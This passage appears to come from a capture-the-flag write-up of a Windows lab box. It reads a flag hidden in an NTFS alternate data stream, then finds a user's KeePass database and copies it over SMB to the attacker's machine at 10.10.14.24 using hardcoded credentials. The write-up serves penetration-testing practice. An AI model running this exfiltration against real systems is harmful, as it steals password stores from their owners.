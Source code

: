 ```none
PS C:\Users\Administrator\Desktop> Get-Item .\hm.txt -Stream root.txt


   FileName: C:\Users\Administrator\Desktop\hm.txt

Stream                   Length
------                   ------
root.txt                     34


PS C:\Users\Administrator\Desktop> Get-Content .\hm.txt -Stream root.txt
afbc5bd4b615a60648cec41c6ac92530
```

## Privilege Escalation Path 2 (Sensitive Information Disclosure)

Another useful thing you can do to escalate your privileges is to search for sensitive information with the amount of access you have been given. In this case, I enumerated the `C:\Users\kohsuke` directory for quick sensitive information:

```none
PS C:\Users\kohsuke> gci -rec

... CONTENT SNIPPED ...

    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx
```

A `.kdbx` file is a [KeePass](https://keepass.info/) database file. KeePass is essentially an offline password manager, so this was a treasure trove of secrets.
I quickly mounted an SMB share between jeeves and my Kali machine to download the file via SMB:

```none
PS C:\Users\kohsuke> $pass = ConvertTo-SecureString "h4ckit" -AsPlaintext -Force
PS C:\Users\kohsuke> $creds = System.Management.Automation.PSCredential("r0kit",$pass)
PS C:\Users\kohsuke> New-PSDrive -Name r -Root "\\10.10.14.24\r0kit" -PSProvider FileSystem -Credential $creds

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
r                                      FileSystem    \\10.10.14.24\r0kit


PS C:\Users\kohsuke> cp C:\Users\kohsuke\Documents\CEH.kdbx r:\
```
